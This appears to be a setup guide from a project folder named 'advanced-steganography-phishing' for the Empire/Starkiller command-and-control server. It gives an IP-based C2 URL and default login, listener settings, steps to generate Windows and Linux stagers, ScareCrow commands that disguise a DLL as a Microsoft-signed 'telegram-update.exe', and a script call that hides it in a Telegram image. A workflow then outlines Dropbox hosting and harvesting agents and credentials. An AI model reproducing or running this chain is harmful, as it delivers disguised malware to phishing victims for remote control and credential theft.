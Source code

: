 # Starkiller Setup Guide

## Access Starkiller

**URL**: https/161-35-155-3.sslip.io

## Login

1. Open Starkiller in your browser (already done)
2. You'll see the Starkiller login page
3. **Default credentials**:
 - URL: `https/161-35-155-3.sslip.io:1337` or `http/127.0.0.1:1337`
 - Username: `empireadmin`
 - Password: `password123`

## Create HTTP Listener

1. Click **Listeners** in left sidebar
2. Click **Create** button
3. Select **HTTP**
4. Configure:
 ```
 Name: main_http
 Host: https/161-35-155-3.sslip.io
 Port: 443
 BindIP: 0.0.0.0
 DefaultProfile: /admin/get.php,/news.php,/login/process.php|Mozilla/5.0
 ```
5. Click **Submit**

## Generate Stagers

### Windows PowerShell Launcher
1. Click **Stagers** in left sidebar
2. Select **windows/launcher_bat**
3. Set **Listener**: `main_http`
4. Set **OutFile**: Leave blank or specify path
5. Click **Generate**
6. Copy output and save as `launcher.bat`

### Windows DLL (for ScareCrow)
1. Select **windows/dll**
2. Set **Listener**: `main_http`
3. Click **Generate**
4. Save output as `empire.dll`

### Multi/Bash
1. Select **multi/bash**
2. Set **Listener**: `main_http`
3. Click **Generate**
4. Save as `launcher.sh` for Linux targets

## Save Stagers

Save all stagers to:
```
/home/kali/Main C2 Framework/advanced-steganography-phishing/stagers/
```

## Integration with ScareCrow

Once you have `empire.dll`:

```bash
cd /home/kali/ScareCrow

./ScareCrow \
 -I "/home/kali/Main C2 Framework/advanced-steganography-phishing/stagers/empire.dll" \
 -Loader binary \
 -domain microsoft.com \
 -O "/home/kali/Main C2 Framework/advanced-steganography-phishing/payloads/telegram-update.exe"
```

## ️ Embed in Steganography

```bash
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing

python3 large-stego-system.py embed \
 --payload payloads/telegram-update.exe \
 --carrier-image images/telegram-hero.png \
 --output output/telegram-hero-payload.png
```

## Verification

### Check Listener Status
- In Starkiller, go to **Listeners**
- Status should show **Active**

### Test Agent Check-in
1. Generate a test stager
2. Run in controlled VM
3. Watch **Agents** tab for check-in
4. Initial callback should appear within 30 seconds

## Complete Workflow

```
1. Create Listener (main_http)
 ↓
2. Generate DLL Stager
 ↓
3. Process with ScareCrow → EXE
 ↓
4. Embed in Image → Stego Image
 ↓
5. Upload to Dropbox
 ↓
6. Deploy Cloudflare Worker
 ↓
7. Test Attack Chain
 ↓
8. Monitor Agents in Starkiller
```

## Starkiller Tips

- **Agents Tab**: See all active agents
- **Listeners Tab**: Manage C2 listeners
- **Stagers Tab**: Generate payloads
- **Modules Tab**: Post-exploitation modules
- **Credentials Tab**: Captured credentials
- **Reporting Tab**: Generate reports

## Security Notes

- Change default password immediately
- Use HTTPS only for production
- Configure proper access controls
- Monitor logs regularly
- Implement kill-switch mechanisms

---

**Current Status**: Starkiller is accessible and ready to use!

**Next Action**: Login and create your first listener
